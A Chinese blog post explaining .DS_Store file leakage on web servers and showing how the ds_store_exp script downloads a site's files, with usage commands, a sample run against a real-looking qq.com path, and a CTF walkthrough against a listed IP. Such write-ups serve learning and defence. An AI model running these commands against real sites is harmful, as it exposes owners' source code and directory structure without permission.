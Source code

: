 ```yaml
---
layout: post
title: 'DS_Store文件泄漏'
subtitle: 'DS_Store文件泄漏'
date: 2021-07-14
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### 什么DS_Store

.DS_Store是Mac OS保存文件夹的自定义属性的隐藏文件，如文件的图标位置或背景色，相当于Windows的desktop.ini。 其删除以后的副作用就是这些信息的失去

和别人交换文件（或你做的网页需要上传的时候）应该把 .DS_Store 文件删除比较妥当，因为里面包含了一些你不一定希望别人看见的信息。尤其是网站，通过 .DS_Store 可以知道这个目录里面所有文件的清单，很多时候这是一个不希望出现的问题。

### DS_Store文件泄漏

.DS_Store是Mac下Finder用来保存如何展示 文件/文件夹 的数据文件，每个文件夹下对应一个。由于开发/设计人员在发布代码时未删除文件夹中隐藏的.DS_store，可能造成文件目录结构泄漏、源代码文件等敏感信息的泄露。

### 利用工具——ds_store_exp

源码地址:[https://github.com/lijiejie/ds_store_exp](https://github.com/lijiejie/ds_store_exp)

这是一个 .DS_Store 文件泄漏利用脚本，它解析.DS_Store文件并递归地下载文件到本地（生成一个该，目标网站的一个源码文件夹）。其运行需要python2环境。

从github上下载工具到本地后，先安装需要的相关库文件：

	pip install -r requirements.txt

使用：

	python ds_store_exp.py http://www.example.com/.DS_Store

Example：

	ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

	hd.zj.qq.com/
	└── themes
	    └── galaxyw
	        ├── app
	        │   └── css
	        │       └── style.min.css
	        ├── cityData.min.js
	        ├── images
	        │   └── img
	        │       ├── bg-hd.png
	        │       ├── bg-item-activity.png
	        │       ├── bg-masker-pop.png
	        │       ├── btn-bm.png
	        │       ├── btn-login-qq.png
	        │       ├── btn-login-wx.png
	        │       ├── ico-add-pic.png
	        │       ├── ico-address.png
	        │       ├── ico-bm.png
	        │       ├── ico-duration-time.png
	        │       ├── ico-pop-close.png
	        │       ├── ico-right-top-delete.png
	        │       ├── page-login-hd.png
	        │       ├── pic-masker.png
	        │       └── ticket-selected.png
	        └── member
	            ├── assets
	            │   ├── css
	            │   │   ├── ace-reset.css
	            │   │   └── antd.css
	            │   └── lib
	            │       ├── cityData.min.js
	            │       └── ueditor
	            │           ├── index.html
	            │           ├── lang
	            │           │   └── zh-cn
	            │           │       ├── images
	            │           │       │   ├── copy.png
	            │           │       │   ├── localimage.png
	            │           │       │   ├── music.png
	            │           │       │   └── upload.png
	            │           │       └── zh-cn.js
	            │           ├── php
	            │           │   ├── action_crawler.php
	            │           │   ├── action_list.php
	            │           │   ├── action_upload.php
	            │           │   ├── config.json
	            │           │   ├── controller.php
	            │           │   └── Uploader.class.php
	            │           ├── ueditor.all.js
	            │           ├── ueditor.all.min.js
	            │           ├── ueditor.config.js
	            │           ├── ueditor.parse.js
	            │           └── ueditor.parse.min.js
	            └── static
	                ├── css
	                │   └── page.css
	                ├── img
	                │   ├── bg-table-title.png
	                │   ├── bg-tab-say.png
	                │   ├── ico-black-disabled.png
	                │   ├── ico-black-enabled.png
	                │   ├── ico-coorption-person.png
	                │   ├── ico-miss-person.png
	                │   ├── ico-mr-person.png
	                │   ├── ico-white-disabled.png
	                │   └── ico-white-enabled.png
	                └── scripts
	                    ├── js
	                    └── lib
	                        └── jquery.min.js

	21 directories, 48 files

### 实例：bugku-sql注入2

此题本为sql账户入题目，但他同时也有DS_Store文件泄漏漏洞。

![](https://1024861435.github.io/assets/img/DS_Store1.png)

通过dirsearch扫描发现.DS_Store文件泄露

![](https://1024861435.github.io/assets/img/DS_Store2.png)

使用利用工具——ds_store_exp查看.DS_Store文件

	python ds_store_exp.py http://123.206.87.240:8007/web2/.DS_Store

![](https://1024861435.github.io/assets/img/DS_Store3.png)

发现flag文件，进入已下载下来的源码文件：

![](https://1024861435.github.io/assets/img/DS_Store4.png)